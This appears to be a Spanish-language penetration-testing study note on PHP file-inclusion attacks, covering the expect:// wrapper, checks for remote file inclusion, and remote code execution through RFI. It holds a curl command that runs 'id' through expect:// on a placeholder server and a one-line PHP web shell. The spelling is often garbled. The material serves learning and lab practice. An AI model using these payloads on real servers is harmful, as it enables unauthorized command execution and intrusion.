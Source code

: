 ## EXPECT

Finalmente el wrapper expect, ejecuta directamente codigo en la URL, sin embargo necesita una instalación manual y que te deje el servidor.

```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```
El tio de configuracion se usa para activar el modulo, esto hace que consigas un RCE podemos usar expect://

```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
# REMOTE FILE INCLUDIO (RFI)

1 - Enumerar puertos locales

2 - Ganar codigo remoto y ejecutarlo

## LOCAL VS INCLUSION REMOTA

Cuando una vulnerabilidad incluye archivos remotos, el host normalmente no acepta script maliciosos, esto se incluye como vulnerabilidad para la pagna que se pueda ejecutar est codigo. 

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/44b6927a-ac1a-4371-b21b-4fcc749e2ce8)

Las mayorias de vulnerabilidades RFI y LFI tienen funciones de incluir remotamente URLS usualmente incluye archivos locales. Sin embargo, un LFI no tiene porque ser necesariamente un RFI.

- La funcion vulnerable no incluye URL remotas
- Tu solo tienes el control de uan forcion de algun archivo como hhtp o ftp
- La configuracion de RFI, normalmente en servidores modernos esta quitada

### VERIFICAR RFI

En muchos lenguajes, incluid codigo remoto en una URL es algo peligoros, por esto esta inclusion esta quitada predeterminadamente. Por ejemplo si quieres incluir URL tiene que estar activo

```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Sin embargo, las configuraciones estan activas, estas funciones vulnerables puedes ejecutar este codigo remoto, y determinar si es una vulnerabilidad LFI o RFI, y ver el contenido, deberemos saber siempre al empezar intentar incluid una URL local como (http:/127.0.0.1:80/index.php)

Si vemos dicha página nos da por hecho que es vulnerable, esta ppagina es vulnerable a RFI

### REMOTE CODE EXECUTION CON RFI

El primerp aso para ganar un codigo remoto de ejecución es crear el scrip malicioso en la aplicacion web. Haremos una web shell y usaremos aun revershe sell

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
